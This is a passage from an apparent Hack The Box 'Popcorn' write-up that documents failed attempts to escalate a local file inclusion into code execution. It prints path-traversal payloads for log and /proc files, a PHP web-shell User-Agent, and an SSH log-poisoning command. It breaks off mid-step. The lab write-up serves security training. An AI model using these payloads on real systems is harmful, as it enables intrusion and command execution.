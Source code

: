 
## TCP/80 (HTTP) - LFI2RCE  (Failed)
1. Include `apache` log file
	1. Validate the location of `apache` log files
		```
		# Payload
		filename=../../../../../../../../var/log/apache2/access.log&newfilename=../../../../../../../../var/log/apache2/access.log
		```
		![]({{ page.img_path }}Pasted%20image%2020220917200712.png)
		- `Permission denied`
2. Include `/proc/self/environ`
	1. Validate the location of `/proc/self/environ`, it exists
		```
		# Payload
		filename=../../../../../../../../proc/self/environ&newfilename=../../../../../../../../proc/self/environ
		```
		![]({{ page.img_path }}Pasted%20image%2020220917185823.png)
	2. Poison `/proc/self/environ/`, and attempt to move it to `/var/www/`, failed	
		```
		# Payload
		filename=../../../../../../../../proc/self/environ&newfilename=../../../../../../../../var/www/environ 
		
		# User Agent
		<?php system(\$_GET['c']); ?>
		```
		![]({{ page.img_path }}Pasted%20image%2020220917190603.png)
		- `failed to open stream`
3. Include SSH log files
	1. Validate the location of `/var/log/auth.log`, it exists
		```
		filename=../../../../../../../../var/log/auth.log&newfilename=../../../../../../../../var/log/auth.log
		```
		![]({{ page.img_path }}Pasted%20image%2020220917185726.png)
	2. Poison SSH Log
		```
		┌──(root💀kali)-[~/htb/popcorn/10.10.10.6/exploit/test]                  
		└─# ssh '<?php echo system($_GET["c"]); exit; ?>'@popcorn.htb 
